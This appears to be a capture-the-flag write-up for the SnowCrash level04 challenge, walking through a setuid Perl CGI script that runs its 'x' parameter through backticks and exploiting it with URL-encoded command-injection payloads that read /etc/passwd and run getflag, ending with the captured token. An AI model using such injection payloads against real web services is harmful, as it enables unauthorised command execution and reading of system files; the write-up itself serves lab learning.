



# Flag04

In my home directory I found a script in `perl`:
```
level04@SnowCrash:~$ pwd
/home/user/level04
level04@SnowCrash:~$ ls -la
total 16
dr-xr-x---+ 1 level04 level04  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level04 level04  220 Apr  3  2012 .bash_logout
-r-x------  1 level04 level04 3518 Aug 30  2015 .bashrc
-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
-r-x------  1 level04 level04  675 Apr  3  2012 .profile
level04@SnowCrash:~$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
level04@SnowCrash:~$
```
And from a previous recognition I know the location of a folder called `level04` in `/var/www`:

Where I found the same file:
```
level04@SnowCrash:/var/www/level04$ ls -la
total 4
dr-xr-x---+ 2 flag04 level04  60 Mar 10 18:15 .
drwxr-xr-x  1 root   root    100 Mar 10 18:15 ..
-r-xr-x---+ 1 flag04 level04 152 Mar 10 18:15 level04.pl
level04@SnowCrash:/var/www/level04$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
level04@SnowCrash:/var/www/level04$
```
Permissions, however, are different.
```
$ scp -P 4242 level04@10.13.250.56:/home/user/level04/level04.pl ~/
```
This Perl script is designed to run a command received as a parameter named "x" using CGI. Here's a breakdown of what the script does:

1. It starts with the shebang line `#!/usr/bin/perl` which specifies the path to the Perl interpreter.
2. It includes the CGI module using `use CGI qw{param};` which allows it to access parameters passed to the script.
3. It sets the content type header for HTML output with `print "Content-type: text/html\n\n";`.
4. It defines a subroutine named `x` that takes a parameter and assigns it to the variable `$y`.
5. Within the subroutine, it uses backticks and the `echo` command to execute the value of `$y` as a shell command. The `2>&1` redirects standard error to standard output.
6. The script then calls the subroutine x with the value of the parameter `"x"` obtained using `param("x")`.

In summary, this script takes a parameter `"x"` from a CGI request, passes it to a subroutine that executes it as a shell command, and then prints the output of that command back to the browser. This script poses a security risk as it allows arbitrary shell commands to be executed, making it vulnerable to code injection attacks. It is important to sanitize and validate user input before executing any commands in this manner to prevent security vulnerabilities.

By connecting to the port, a blank page appears:
```
$ firefox 10.13.250.56:4747
```
If I add the `x` parameter to it, like for example:
```
?x="Hello, Tomi!"
```

To execute a command I need to encode it in URL-format string, as so:
```
http://10.13.250.56:4747/?x=banane%20%26%26%20cat%20%2Fetc%2Fpasswd
```


Right, that's enough talk. Let's get on with it!
```
http://10.13.250.56:4747/?x=banane%20%26%26%20getflag
```
[getflag](image.png)

_Et voilà !_ The token is:
```
ne2searoevaevoem4ov4ar8ap
```

```
level04@SnowCrash:~$ su level05
Password:
level05@SnowCrash:~$